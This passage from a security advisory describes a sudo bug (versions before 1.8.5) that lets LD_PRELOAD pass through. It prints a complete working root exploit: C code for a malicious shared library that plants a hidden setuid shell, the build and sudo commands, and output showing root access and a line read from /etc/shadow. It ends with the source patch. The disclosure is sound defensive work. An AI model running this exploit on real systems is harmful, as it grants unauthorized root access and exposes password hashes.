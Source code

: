 However, in Sudo &lt; 1.8.5, we [found](http://seclists.org/oss-sec/2014/q1/510) that environment variables passed in on the command line are not removed even though they should be. Thus we can still escalate our privileges using for example the LD\_PRELOAD technique, as demonstrated below on a fully up-to-date Red Hat Enterprise Linux 5.10 system \(only missing the recent [security update](https://rhn.redhat.com/errata/RHSA-2014-0266.html) of course\):

```text
$ rpm -q sudo
sudo-1.7.2p1-28.el5
$ cat > xoxo.c <<'LUL'
#include <unistd.h>
#include <stdlib.h>

void _init()
{
 if (!geteuid()) {
   unsetenv("LD_PRELOAD");
   unlink("/tmp/libxoxo.so.1.0");
   setgid(0);
   setuid(0);
   execl("/bin/sh","sh","-c","cp /bin/bash /tmp/.bash; chown 0:0 /tmp/.bash; /bin/chmod +xs /tmp/.bash",NULL);
 }
}
LUL
$ gcc -o xoxo.o -c xoxo.c -fPIC
$ gcc -shared -Wl,-soname,libxoxo.so.1 -o /tmp/libxoxo.so.1.0 xoxo.o -nostartfiles
$ sudo LD_PRELOAD=/tmp/libxoxo.so.1.0 /etc/init.d/sshd blaaah
[sudo] password for monitor:
$ /tmp/.bash -p -c 'id;head -n 1 /etc/shadow'
uid=500(monitor) gid=500(monitor) euid=0(root) egid=0(root) groups=500(monitor)
root:$1$VjDVB93E$AUL2Mg1L2gH70HHxh2CEr/:16128:0:99999:7:::
```

The bug is located on line 685 of the file sudo-1.8.4p5/plugins/sudoers/env.c, where a boolean comparison is performed incorrectly. The following patch fixes this issue:

```text
--- sudo-1.8.4p5/plugins/sudoers/env.c  2012-03-30 04:37:01.000000000 +1100
+++ sudo-1.8.4p5-fixed/plugins/sudoers/env.c    2014-02-28 10:36:14.623915000 +1100
@@ -682,7 +682,7 @@
                okvar = matches_env_keep(*ep);
        } else {
            okvar = matches_env_delete(*ep) == false;
-           if (okvar == false)
+           if (okvar == true)
                okvar = matches_env_check(*ep) != false;
        }
        if (okvar == false) {
```

In Sudo 1.8.5, the affected code was actually changed and cleaned up which silently fixed the issue. As a result, in Sudo 1.8.5 and above, environment variables passed in on the command line are properly removed.
